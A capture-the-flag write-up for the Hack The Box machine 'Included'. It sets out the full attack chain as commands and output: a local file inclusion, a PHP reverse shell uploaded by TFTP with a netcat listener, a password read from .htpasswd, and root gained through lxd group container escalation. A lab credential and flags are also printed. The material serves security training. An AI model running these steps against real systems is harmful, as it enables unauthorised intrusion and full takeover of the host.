

# Included

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. What service is running on the target machine over UDP?

```sh
$ nmap -A -T4 10.129.95.185           
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-03 21:25 CET
Nmap scan report for 10.129.95.185
Host is up (0.090s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.95.185/?file=home.php
```

From our scan we can see only port 80, so let's see it.

The url has changed to `http://10.129.95.185/?file=home.php`.

We can use here `local file inclusion` and load `/ect/passwd`*(http://10.129.95.185/?file=/etc/passwd)*:



We can see the user `tftp`, so probably it's our `UDP` service.

> tftp

#### 2. What class of vulnerability is the webpage that is hosted on port 80 vulnerable to?

> local file inclusion

#### 3. What is the default system folder that TFTP uses to store files?

> /var/lib/tftpboot/

#### 4. Which interesting file is located in the web server folder and can be used for Lateral Movement?

As we have discovered `tftp` we can use it to upload php reverse shell and then open it in browser using `LFI`:

```sh
$ tftp 10.129.95.185 
tftp> put php-reverse-shell.php
Sent 5685 bytes in 0.5 seconds
```

So next set up netcat listener:

```sh
$ nc -l 9001
```

And open file in browser under `http://10.129.95.185/?file=/var/lib/tftpboot/php-reverse-shell.php`:

```sh
$ nc -l 9001
Linux included 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:50:40 up 26 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@included:/$
```

We are in! So let's see what's inside web server folder:

```sh
www-data@included:/var/www/html$ ls -al
ls -al
total 88
drwxr-xr-x 4 root     root      4096 Oct 13  2021 .
drwxr-xr-x 3 root     root      4096 Apr 23  2021 ..
-rw-r--r-- 1 www-data www-data   212 Apr 23  2021 .htaccess
-rw-r--r-- 1 www-data www-data    17 Apr 23  2021 .htpasswd
-rw-r--r-- 1 www-data www-data 13828 Apr 29  2014 default.css
drwxr-xr-x 2 www-data www-data  4096 Apr 23  2021 fonts
-rw-r--r-- 1 www-data www-data 20448 Apr 29  2014 fonts.css
-rw-r--r-- 1 www-data www-data  3704 Oct 13  2021 home.php
drwxr-xr-x 2 www-data www-data  4096 Apr 23  2021 images
-rw-r--r-- 1 www-data www-data   145 Oct 13  2021 index.php
-rw-r--r-- 1 www-data www-data 17187 Apr 29  2014 license.txt
```

> .htpasswd

#### 5. What is the group that user Mike is a part of and can be exploited for Privilege Escalation?

```sh
www-data@included:/var/www/html$ cat .htpasswd  
cat .htpasswd
mike:Sheffield19
```

Let's login as mike:

```sh
www-data@included:/var/www/html$ su mike
Password: Sheffield19

mike@included:/var/www/html$ id
uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
```

> lxd

#### 6. When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name?

```
LXD is a management API for dealing with LXC containers on Linux systems. It will
perform tasks for any members of the local lxd group. It does not make an effort to
match the permissions of the calling user to the function it is asked to perform.
```

```
A member of the local “lxd” group can instantly escalate the privileges to root on the
host operating system. This is irrespective of whether that user has been granted sudo
rights and does not require them to enter their password. The vulnerability exists even
with the LXD snap package.
```

[Here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) are described exact steps, that we need to perform.

> alpine

#### 7. What flag do we set to the container so that it has root privileges on the host system?

> security.privileged=true

#### 8. If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted?

As I am on `MacOS` I had to do steps from previous link in `Pwnbox`:

```sh
sudo apt install snapd
sudo snap install distrobuilder --classic
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo /snap/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
python3 -m http.server 8000
```

From reverse shell:

```sh
mike@included:/tmp$ wget http://{local_IP}:8000/lxd.tar.xz
mike@included:/tmp$ wget http://{local_IP}:8000/rootfs.squashfs
mike@included:/tmp$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
mike@included:/tmp$ lxc image list
+--------+--------------+--------+-----------------------------------------+--------+--------+-----------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION               |  ARCH  |  SIZE  |         UPLOAD DATE         |
+--------+--------------+--------+-----------------------------------------+--------+--------+-----------------------------+
| alpine | e521348739ed | no     | Alpinelinux 3.18 x86_64 (20240303_2131) | x86_64 | 2.94MB | Mar 3, 2024 at 9:37pm (UTC) |
+--------+--------------+--------+-----------------------------------------+--------+--------+-----------------------------+
mike@included:/tmp$ lxc init alpine privesc -c security.privileged=true
mike@included:/tmp$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
mike@included:/tmp$ lxc start privesc
mike@included:/tmp$ lxc exec privesc /bin/sh
```

> /mnt/root/

#### Submit user flag

```sh
mike@included:/$ cat /home/mike/user.txt
cat /home/mike/user.txt
a56ef91d70cfbf2cdb8f454c006935a1
```

#### Submit root flag

```sh
/mnt/root/root # ^[[24;18Rcat root.txt
cat root.txt
c693d9c7499d9f572ee375d4c14c7bcf
```

## Final Flag

> `user`: a56ef91d70cfbf2cdb8f454c006935a1
> `root`: c693d9c7499d9f572ee375d4c14c7bcf

*Created by [bu19akov](https://github.com/bu19akov)*